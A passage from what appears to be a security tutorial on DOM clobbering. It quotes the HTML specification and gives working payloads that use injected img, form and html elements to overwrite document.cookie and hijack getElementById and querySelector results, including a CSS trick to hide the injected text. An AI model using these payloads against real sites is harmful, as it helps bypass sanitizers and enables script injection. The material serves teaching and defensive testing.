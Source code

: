 > \- The value of the [id](https://html.spec.whatwg.org/multipage/dom.html#the-id-attribute) content attribute for all [img](https://html.spec.whatwg.org/multipage/embedded-content.html#the-img-element) elements that have both a non-empty [id](https://html.spec.whatwg.org/multipage/dom.html#the-id-attribute) content attribute and a non-empty name content attribute, and are [in a document tree](https://dom.spec.whatwg.org/#in-a-document-tree) with document as their [root](https://dom.spec.whatwg.org/#concept-tree-root).

Using this technique you can overwrite commonly used **values such as `document.cookie`, `document.body`, `document.children`**, and even methods in the Document interface like `document.querySelector`.

```javascript
document.write("<img name=cookie />")

document.cookie
<img name="cookie">

typeof(document.cookie)
'object'

//Something more sanitize friendly than a img tag
document.write("<form name=cookie><input id=toString></form>")

document.cookie
HTMLCollection(2) [img, form, cookie: img]

typeof(document.cookie)
'object
```

## Writing after the element clobbered

The results of calls to **`document.getElementById()`** and **`document.querySelector()`** can be altered by injecting a `<html>` or `<body>` tag with an identical id attribute. Here's how it can be done:

```html
<div style="display:none" id="cdnDomain" class="x">test</div>
<p>
  <html id="cdnDomain" class="x">
    clobbered
  </html>
  <script>
    alert(document.getElementById("cdnDomain").innerText) // Clobbered
    alert(document.querySelector(".x").innerText) // Clobbered
  </script>
</p>
```

Furthermore, by employing styles to hide these injected HTML/body tags, interference from other text in the `innerText` can be prevented, thus enhancing the efficacy of the attack:

```html
<div style="display:none" id="cdnDomain">test</div>
<p>existing text</p>
<html id="cdnDomain">
  clobbered
</html>
<style>
  p {
    display: none;
  }
</style>
<script>
  alert(document.getElementById("cdnDomain").innerText) // Clobbered
</script>
```